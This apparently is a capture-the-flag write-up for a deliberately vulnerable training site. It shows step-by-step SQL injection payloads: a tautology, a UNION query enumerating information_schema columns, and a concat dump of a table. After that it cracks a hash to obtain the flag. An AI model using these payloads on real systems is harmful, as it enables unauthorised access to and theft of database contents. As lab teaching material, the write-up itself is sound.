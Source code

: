 # SQL_Injection_images

## Description

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

## Do_similary_thing_like_SQL_injection_members

    # input:
    1 or 1=1

    # result:
    ID: 1 or 1=1 
    Title: Hack me ?
    Url : borntosec.ddns.net/images.png

## Step_2

    # input:
    1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database()

    # result:
    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : id

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : url

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : title

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : comment

## Step_3

    # input:
    1 or 1=1 union select null, concat(id, url, title, comment) from list_images 

    # result:
    Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

## Get_the_flag

    1928e8083cf461a51303633093573c46 -> MD5 hash -> after crack -> albatroz
    albatroz -> ater SHA256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Solutions